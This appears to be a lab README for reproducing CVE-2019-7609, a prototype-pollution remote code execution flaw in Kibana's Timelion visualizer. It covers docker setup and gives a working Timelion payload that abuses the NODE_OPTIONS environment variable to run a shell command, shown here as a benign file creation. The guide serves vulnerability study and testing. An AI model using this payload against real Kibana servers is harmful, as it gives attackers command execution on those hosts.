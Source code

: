 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References: 

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:

![](2.png)